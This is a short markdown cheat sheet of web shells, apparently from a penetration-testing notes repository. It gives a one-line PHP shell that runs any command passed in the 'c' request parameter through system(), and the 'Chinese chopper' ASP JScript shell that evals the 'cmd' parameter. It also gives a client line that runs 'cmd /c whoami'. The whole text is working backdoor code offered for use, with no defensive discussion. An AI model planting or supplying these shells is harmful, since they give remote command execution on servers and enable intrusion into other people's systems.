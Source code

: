 # Web Shells

## PHP

* [https://stackoverflow.com/a/3697776](https://stackoverflow.com/a/3697776)

```php
<?php if(isset($_REQUEST['c'])){system($_REQUEST['c'].' 2>&1');} ?>
```

## ASP

### JScript

Chinese chopper:

```csharp
// Server-side
<script language="JScript" runat="server"> function Page_Load(){/**/eval(Request["cmd"],"unsafe");}</script>
// Client-side
Response.Write(new ActiveXObject("WScript.Shell").exec("cmd /c whoami").stdout.readall())
```

